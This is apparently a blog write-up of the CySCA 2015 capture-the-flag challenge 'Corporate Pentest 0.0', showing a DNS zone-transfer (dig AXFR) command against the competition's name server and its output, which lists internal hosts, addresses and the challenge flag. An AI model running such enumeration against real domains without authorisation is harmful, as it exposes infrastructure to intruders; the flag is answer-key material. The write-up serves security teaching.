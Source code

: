 ```yaml
---
title: CySCA 2015 - Corporate Pentest 0.0 - Danger Zone
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```



Similar to last year, we perform a domain transfer request to show all the records in the domain, revealing the flag.

{% highlight text %}
$> dig -t axfr ecwi.cysca @ns.ecwi.cysca

; <<>> DiG 9.8.3-P1 <<>> -t axfr ecwi.cysca @ns.ecwi.cysca
;; global options: +cmd
ecwi.cysca.     86400   IN  SOA ns.ecwi.cysca. admin.ecwi.cysca. 2015070401 28800 7200 864000 86400
ecwi.cysca.     86400   IN  NS  ns.ecwi.cysca.
ecwi.cysca.     86400   IN  A   172.16.5.80
ns.ecwi.cysca.      300 IN  A   172.16.5.53
proxy.ecwi.cysca.   300 IN  A   172.16.5.30
support.ecwi.cysca. 300 IN  A   172.16.5.85
www.ecwi.cysca.     300 IN  A   172.16.5.80
zonetransferflag.ecwi.cysca. 300 IN TXT "FLAG{749929CE145DD73A8D1530E2170B1587}"
ecwi.cysca.     86400   IN  SOA ns.ecwi.cysca. admin.ecwi.cysca. 2015070401 28800 7200 864000 86400
;; Query time: 221 msec
;; SERVER: 172.16.5.53#53(172.16.5.53)
;; WHEN: Wed Sep 30 19:35:44 2015
;; XFR size: 9 records (messages 1, bytes 289)
{% endhighlight %}

